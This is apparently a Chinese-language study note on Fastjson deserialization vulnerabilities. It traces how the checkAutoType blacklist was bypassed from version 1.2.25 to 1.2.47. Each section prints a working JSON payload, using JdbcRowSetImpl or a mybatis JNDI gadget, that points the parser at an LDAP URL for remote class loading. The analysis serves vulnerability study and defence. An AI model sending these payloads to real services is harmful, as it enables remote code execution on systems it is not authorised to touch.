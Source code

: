# fastjson 1.2.25-1.2.41

前面PayLoad能成功触发，主要是fastjson的AutoType机制，即用户可以控制要反序列化的类`@type`

**FastJson1.2.25** 中引入了`checkAutoType`安全机制，且默认关闭`autoTypeSupport`，不能反序列化任意类。就算打开了`AutoType`，也有内置的黑名单来防止恶意反序列化，fastjson还提供了添加黑名单的接口。

查看该版本的`com.alibaba.fastjson.parser.ParserConfig`

![image-20230124184118155](../.gitbook/assets/image-20230124184118155.png)

* autoTypeSupport：是否开启任意类的反序列化，默认false
* denyList：反序列化黑名单
* acceptList：反序列化白名单

正常情况有两种方式开启AutoType

* JVM启动参数
  `-Dfastjson.parser.autoTypeSupport=true`
* 代码设置
  `ParserConfig.getGlobalInstance().setAutoTypeSupport(true); `
* 在fastjson.properties中添加
  `fastjson.parser.autoTypeAccept=ExploitableClass`

`DefaultJSONParser#parseObject`中增加了`config.checkAutoType()`

![image-20230124185005220](../.gitbook/assets/image-20230124185005220.png)

若开了`autoType`，先检验白名单，若命中直接加载类，接着再检验黑名单

![image-20230124190243971](../.gitbook/assets/image-20230124190243971.png)

黑名单如下：

![image-20230124190606386](../.gitbook/assets/image-20230124190606386.png)

但最后还是判断了一遍`autoTypeSupport`，false抛出异常

![image-20230124190416568](../.gitbook/assets/image-20230124190416568.png)

绕过：类名添加`L`和`;`（需开启`AutoTypeSupport`）

> { 
>
> ​	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
>
> ​	"dataSourceName":"ldap://127.0.0.1:8099/evil", 
>
> ​	"autoCommit":true 
>
> }

`checkAutoType` 跟进 `TypeUtils.loadClass`

![image-20230124201124767](../.gitbook/assets/image-20230124201124767.png)

若以`L`开头，以`;`结尾，去除这两个字符后再加载类。

# fastjson 1.2.42

将黑名单类改成HASH的方式来进行对比，这是为防止安全研究员根据黑名单的类进行反向研究。

先说绕过方式，双写`L`和`;`

> { 
>
> ​	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
>
> ​	"dataSourceName":"ldap://127.0.0.1:8099/evil", 
>
> ​	"autoCommit":true 
>
> }

![image-20230124205030264](../.gitbook/assets/image-20230124205030264.png)

判断收尾是`L`和`;`，去除第一层，接着进`TypeUtils.loadclass()`去除第二层

# fastjson 1.2.43

该版本检查若类名LL开头就抛出异常。

![image-20230124212334925](../.gitbook/assets/image-20230124212334925.png)

用`[`绕过

> { 
>
> ​	"@type":"[com.sun.rowset.JdbcRowSetImpl"[,
>
> ​	{"dataSourceName":"ldap://127.0.0.1:8099/evil", 
>
> ​	"autoCommit":true 
>
> }

# fastjson 1.2.44

`checkAutoType` 中添加了新的判断，如果类名以 `[` 开始则直接抛出异常。

无法绕过

# fastjson 1.2.45

> { 
>
> ​	"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
>
> ​	"properties":{        
>
> ​			"data_source":"ldap://127.0.0.1:8099/evil"    
>
> ​	}
>
> }

mybatis版本需为3.x.x~3.5.0

`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`不在黑名单中

# 绕过autoType

> {
>     "a":{
>         "@type":"java.lang.Class",
>         "val":"com.sun.rowset.JdbcRowSetImpl"
>     },
>     "b":{
>         "@type":"com.sun.rowset.JdbcRowSetImpl",
>         "dataSourceName":"ldap://127.0.0.1:8099/evil",
>         "autoCommit":true
>     }
> }

> fastjson 1.2.25 ~ 1.2.47

绕过点还是在`checkAutoType`

![image-20230124234157720](../.gitbook/assets/image-20230124234157720.png)

autoTypeSupport为true时，fastjson首先判断类是否在白名单内，命中则加载该类

接着判断类是否在黑名单内且TypeUtils.mappings中没有该类缓存，才抛出异常。

接着继续尝试在`TypeUtils.mappings`中查找缓存的class，也在deserializers中查找

![image-20230124235135264](../.gitbook/assets/image-20230124235135264.png)

deserializers找不到可以利用的地方。

看向`TypeUtils.getClassFromMapping`，从mappings中获取Class，向mappings中put的函数有`TypeUtils.loadClass`

```java
public static Class<?> loadClass(String className, ClassLoader classLoader, boolean cache) {
        // 非空判断
        if(className == null || className.length() == 0){
            return null;
        }
        // 防止重复添加
        Class<?> clazz = mappings.get(className);
        if(clazz != null){
            return clazz;
        }
        // 判断 className 是否以 [ 开头
        if(className.charAt(0) == '['){
            Class<?> componentType = loadClass(className.substring(1), classLoader);
            return Array.newInstance(componentType, 0).getClass();
        }
        // 判断 className 是否 L 开头 ; 结尾
        if(className.startsWith("L") && className.endsWith(";")){
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
        }
        try{
            // 如果 classLoader 非空，cache 为 true 则使用该类加载器加载并存入 mappings 中
            if(classLoader != null){
                clazz = classLoader.loadClass(className);
                if (cache) {
                    mappings.put(className, clazz);
                }
                return clazz;
            }
        } catch(Throwable e){
            e.printStackTrace();
            // ....
        }
        // 如果失败，或没有指定 ClassLoader ，则使用当前线程的 contextClassLoader 来加载类，也需要 cache 为 true 才能写入 mappings 中
        try{
            ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
            if(contextClassLoader != null && contextClassLoader != classLoader){
                clazz = contextClassLoader.loadClass(className);
                if (cache) {
                    mappings.put(className, clazz);
                }
                return clazz;
            }
        } catch(Throwable e){
            // ...
        }
        // 如果还是失败，则使用 Class.forName 来获取 class 对象并放入 mappings 中
        try{
            clazz = Class.forName(className);
            mappings.put(className, clazz);
            return clazz;
        } catch(Throwable e){
            // ....
        }
        return clazz;
    }
```

若能控制该方法的参数，就能向mappings中写入任意类名。

`com.alibaba.fastjson.serializer.MiscCodec#deserialze` 方法，这个类是用来处理一些乱七八糟类的反序列化类，包括 `Class.class` 类
